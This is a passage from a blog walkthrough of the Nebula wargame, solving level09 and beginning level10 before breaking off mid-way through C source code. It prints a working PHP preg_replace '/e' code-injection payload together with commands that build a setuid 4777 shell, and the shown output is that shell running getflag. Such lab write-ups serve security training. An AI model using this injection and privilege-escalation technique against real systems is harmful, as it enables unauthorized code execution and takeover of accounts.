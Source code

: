 The PHP code basically had 2 main functions. `markup()` and `spam()`. `markup()` would read the contents of a file (who’s location is read as the first command line argument), and using regex, search for a pattern matching `[email addr]` where *addr* will be the extracted part. It then as a callback executes `spam()` which will convert `.` to ` dot ` and `@` to ` AT `. I took a really long time researching the `preg_replace()` functions and potential exploits with it. Eventually I came across a post describing how code injection may be possible when `preg_replace()` is called with the `e` modifier. [This](http://www.madirish.net/402) blogpost explains the vulnerability in pretty great detail. That blogpost coupled with the PHP docs [here](http://php.net/manual/en/reference.pcre.pattern.modifiers.php) helps develop a payload for exploitation. The PHP documentation has a sample of `<h1>{${eval($_GET[php_code])}}</h1>` which is what I used to finish the final payload for this level.

Another thing to note about the PHP code is the `$use_me` variable passed to the `markup()` function. It only gets declared and never gets used later. I think the developer of this level wanted this to be a form of hint, but it was handy to get code execution as argument 2 on the command line will be the command we want to execute :)

So, to solve level09:

```bash
level09@nebula:/home/flag09$ echo -ne "[email {\${system(\$use_me)}}]" > /var/tmp/flag09.txt

level09@nebula:/home/flag09$ cat /var/tmp/flag09.txt
[email {${system($use_me)}}]

level09@nebula:/home/flag09$ ./flag09 /var/tmp/flag09.txt "gcc /var/tmp/shell.c -o /var/tmp/flag09; chmod 4777 /var/tmp/flag09"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1

level09@nebula:/home/flag09$ /var/tmp/flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

### intermission

From here, the levels became noticeably harder for me. A lot of the levels had me researching new things that I was unsure of. :)

I wont detail all of the failed attempts. There were so many. Only the successes (and if a failure was significant) will land here :P
Lets get to them!

## level10

[Level10's Description](https://exploit-exercises.com/nebula/level10/):
{% blockquote %}
The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.
{% endblockquote %}

With the description we are provided with the source code of a small PHP program:

```c basic.c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;
```